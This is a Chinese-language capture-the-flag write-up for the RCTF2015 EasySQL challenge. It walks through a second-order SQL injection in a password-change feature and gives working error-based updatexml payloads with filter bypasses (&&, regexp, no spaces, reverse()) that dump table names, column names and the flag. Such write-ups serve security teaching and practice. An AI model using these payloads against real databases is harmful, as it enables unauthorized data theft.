 # \[RCTF2015]EasySQL

## \[RCTF2015]EasySQL

## 考点

* 二次注入
* 报错注入
* `&&`绕过`and`
* `regexp`绕过`=`和`like`
* 处理过滤空格

## wp

有登录注册功能，注册页面，试了一下，`username` 和 `email` 处有过滤，输入`aaaa'`和`aaaa\`直接提`示invalid string!`

直接 fuzz 一下哪些字符被禁了

![](../.gitbook/assets/rctf2015\_ezsql\_2.png)

注册成功之后，有一个修改密码的功能，这里的考点应该就是二次注入。二次注入就是它在存入数据库时进行了特殊字符的处理，但是在修改密码这里，从数据库中读取出来时，没有对数据处理

注册用户名 `aaaa"` ，在修改密码时有个报错的回显

![](<../.gitbook/assets/image (15) (2).png>)

可以判断注册的语句如下

```sql
INSERT INTO users(name,pwd,email) VALUES (waf(username),md5(password),waf(email))
```

修改密码的语句如下

```sql
update users set pwd="newpass" where name="username" and pwd="oldpass"
```

可以考虑报错注入

`username=bbbb"||(updatexml(1,concat(0x3a,(select(group_concat(table_name))from(information_schema.tables)where(table_schema=database()))),1))#`

得到回显`XPATH syntax error: ':article,flag,users'`

试了一下发现flag 不在 flag 表中，`username=bbbb"||(updatexml(1,concat(0x3a,(select(group_concat(column_name))from(information_schema.columns)where(table_name='users'))),1))#`，提示`XPATH syntax error: ':name,pwd,email,real_flag_1s_her'`，没有显示全

这时候可以考虑`reverse()`函数，或者使用`&&`绕过`and`，`regexp`绕过`=`和`like`

使用`username=peri0d"||(updatexml(1,concat(0x3a,(select(group_concat(column_name))from(information_schema.columns)where(table_name='users')&&(column_name)regexp('^r'))),1))#`，得到`XPATH syntax error: ':real_flag_1s_here'`

然后读取就可以了

```
username=bbbb"||(updatexml(1,concat(0x3a,(select(group_concat(real_flag_1s_here))from(users)where(real_flag_1s_here)regexp('^f'))),1))#
username=bbbb"||(updatexml(1,concat(0x3a,reverse((select(group_concat(real_flag_1s_here))from(users)where(real_flag_1s_here)regexp('f'))),1))#
```
